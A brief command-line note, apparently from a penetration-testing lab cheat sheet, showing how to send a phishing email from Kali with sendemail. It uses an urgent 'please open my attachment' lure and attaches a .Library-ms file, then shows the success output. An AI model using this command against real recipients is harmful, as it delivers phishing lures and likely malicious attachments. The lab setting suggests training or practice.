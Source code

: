 # sendemail
- send an email from KALI command line
```bash
sendemail -f test@supermagicorg.com -t Dave.Wizard@supermagicorg.com -s 192.168.205.199:587 -xu test@supermagicorg.com -xp test -u "Urgent: please open my attachment" -m "Urgent: please open my attachment." -a ./config.Library-ms  -o tls=yes
Oct 23 00:23:10 kali sendemail[1090229]: Email was sent successfully!

```
